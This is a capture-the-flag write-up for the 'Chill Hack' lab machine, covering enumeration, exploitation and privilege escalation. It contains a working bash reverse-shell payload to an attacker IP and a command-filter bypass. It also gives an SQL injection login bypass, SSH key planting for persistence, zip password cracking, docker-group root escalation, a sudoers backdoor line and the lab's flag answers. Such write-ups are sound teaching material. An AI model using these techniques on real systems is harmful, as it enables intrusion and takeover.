



# Chill Hack

* IP = 10.10.175.103

## Enumerating And Scanning:

* Nmap scan to discover open ports:
`nmap -sC -sV -vv $IP`
* **Nmap Scan Results:**
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* FTP Anonymous login is permitted i.e. Login to FTP server with `anonymous` username and no password is allowed.
* FTP has only one file:`note.txt`<br>
<br>

* Contents of `note.txt`:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
* `anurodh` and `apaar` usernames are noted for later use.
* The website view of main page:<br>


* Used `gobuster` to scan to find any other hidden directories on the website:
* **Gobuster Scan Results:**
```
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
=====================================================
2022/07/30 19:12:47 Finished
=====================================================
```
* `/secret` directory of the website:<br>

* Basic commands like `ls` or `cat` can't be executed:<br>

* But, `id` command was executed successfully:<br>

* Searched for some bash reverse shell payloads from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.
* But `bash -i >& /dev/tcp/10.4.50.128/7777 0>&1` can't be used.<br>

* Using `/bin/bash` instead of `bash` works.

## Exploitation/Gaining Access:

* Finally this payload worked properly:`/bin/bash -c '/bin/bash -i >& /dev/tcp/10.4.50.128/7777 0>&1'`, with a netcat listener:`nc -lnvp 7777`<br>

* Next, some basic enumeration in the home directory:<br>

* Sudo commands that can be run by `www-data` user:<br>

* Hence the following command can be used to run `.helpline.sh` as `apaar` user:`sudo -u apaar /home/apaar/.helpline.sh`. Now, since the above code directly passes the given input and runs the command without parsing, giving `/bin/bash` as input will spawn a shell with `apaar` user privileges.
<br>
* The file `local.txt` in `apaar` user's home directory is the required user flag.<br>


## Post Exploitation

* First enumerate the running processes with `ps aux` and the running webservices/network services with:`netstat -anlp | grep LISTEN`:<br>

* The service running on port `9001` at localhost seemd strange, hence it was port forwarded via SSH.
* Generated a new ssh key-pair with `ssh-keygen` on local machine:<br>

* Copied the `id_rsa.pub` or the public key into the authorized_keys file inside `.ssh` directory of `/home/apaar`.
* Now SSH 'ed into the server with:`ssh -i id_rsa apaar@10.10.175.103 -L 9001:127.0.0.1:9001` using forwarded port.
* `-L` flag signifies the following:
```
Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
```
* In local machine, the process is found in the same port:<br>
<br>
* Visited the running service on browser with `localhost:9001` which brings here:<br>

* This login page is vulnerable to basic SQL injection, hence logged in with:`admin' or 1=1 --`.
* Which brings here:<br>

* Next, downloaded the image file:<br>
<br>
* Using `steghide extract -sf download.jpg` a zip file can be extracted, which is infact password protected. Cracked the zipfile password with:`fcrackzip -D -u -p rockyou.txt backup.zip`, and the password was found as:`pass1word`.
* Significance of the flags:
```
-D -> dictionary style password search
-u -> decompresses the file while trying a password, evades out false positives
-p -> specify the password file
```
* Unzipping the zipfile reveals a source code written in php, which has a *base64* encoded password of `anurodh`:<br>

* Which can be decoded as:`!d0ntKn0wmYp@ssw0rd`.

## Privilege Escalation

* SSH into the server as `anurodh` and password as:`!d0ntKn0wmYp@ssw0rd`.
* The most initial enumeration reveals `anurodh` is in the `docker` group, which means anything from the filesystem can be mounted into the docker containers and run as root.
```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
* Checked if any docker images are already present with:`docker images`. There is an `alpine` image, which can be used.
* Easiest way to get the root flag is by mounting the whole filesystem into a docker container and navigate inside the `root` home directory by executing:`docker run --rm -it --privileged -v /:/mnt alpine`:<br>
<br>
* The arguments signifies the following:
```
run -> runs the container
--rm -> removes previously present containers using same image
-it -> interactive shell, to get a shell inside the container
--privileged -> keep the privileges
-v -> specify the volume to be mounted, here / is mounted to /mnt
```
* The file named `proof.txt` inside the `/mnt/root` directory will contain the root flag.:<br>

* Another way of actually escalating privileges would be by modifying the `/etc/sudoers` file by adding the line:

```yaml
anurodh ALL=(ALL) NOPASSWD: ALL
```
* So that anyone can become root without authentication. To try this, exit out of the container and change privileges to root with: `sudo su`:<br>



## Questions/Tasks:

1. User Flag:

**Ans-{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

2. Root Flag:

**Ans-{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
